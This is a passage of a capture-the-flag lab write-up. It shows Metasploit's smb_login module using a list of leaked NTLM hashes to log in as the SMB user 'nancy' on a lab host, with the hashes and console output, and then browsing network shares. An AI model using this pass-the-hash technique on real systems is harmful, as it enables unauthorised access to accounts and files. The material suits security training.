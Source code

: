 
### Flag 2:

Using the NTLM hash list discovered in the previous challenge, can you compromise the smb user nancy?

Hence we already hold the access to the hash, let’s try to found our way in using those, for this we’ll be using the msfconsole and with that `smb_login`

```bash
msf6 auxiliary(scanner/smb/smb_login) > set rhost target.ine.local
rhost => target.ine.local
msf6 auxiliary(scanner/smb/smb_login) > set pass_file leaked-hashes.txt
pass_file => leaked-hashes.txt
msf6 auxiliary(scanner/smb/smb_login) > set smbuser nancy
smbuser => nancy
msf6 auxiliary(scanner/smb/smb_login) > set createsession true
createsession => true
msf6 auxiliary(scanner/smb/smb_login) > run
[-] 10.5.16.222:445       - 10.5.16.222:445 - Failed: '.\nancy:aad3b435b51404eeaad3b435b51404ee:a01c5c6b02e0b6752a33d1e7b0a33aa0',
[-] 10.5.16.222:445       - 10.5.16.222:445 - Failed: '.\nancy:aad3b435b51404eeaad3b435b51404ee:34ec1e4f6f7cbe35a09ee51b1c0039d2',
[+] 10.5.16.222:445       - 10.5.16.222:445 - Success: '.\nancy:aad3b435b51404eeaad3b435b51404ee:b3ddea4b4b957f3e037af75cfe5317ad'
[*] SMB session 1 opened (10.10.47.2:36545 -> 10.5.16.222:445) at 2025-05-31 19:43:21 +0530
[*] target.ine.local:445  - Scanned 1 of 1 hosts (100% complete)
[*] target.ine.local:445  - Bruteforce completed, 1 credential was successful.
[*] target.ine.local:445  - 1 SMB session was opened successfully.
```

Now that we have created a session over the target let’s login 

```bash
msf6 auxiliary(scanner/smb/smb_login) > sessions

Active sessions
===============

  Id  Name  Type  Information                  Connection
  --  ----  ----  -----------                  ----------
  1         smb   SMB nancy @ 10.5.16.222:445  10.10.47.2:36545 -> 10.5.16.222:445 (10.5.16.222)

msf6 auxiliary(scanner/smb/smb_login) > sessions 1
[*] Starting interaction with 1...

SMB (10.5.16.222) > shares
Shares
======

    #  Name         Type          comment
    -  ----         ----          -------
    0  ADMIN$       DISK|SPECIAL  Remote Admin
    1  C$           DISK|SPECIAL  Default share
    2  D$           DISK|SPECIAL  Default share
    3  HRDocuments  DISK
    4  IPC$         IPC|SPECIAL   Remote IPC
    5  ITResources  DISK
    6  print$       DISK          Printer Drivers

SMB (10.5.16.222) > shares -i ITResources
[+] Successfully connected to ITResources
SMB (10.5.16.222\ITResources) > dir
ls 
===

```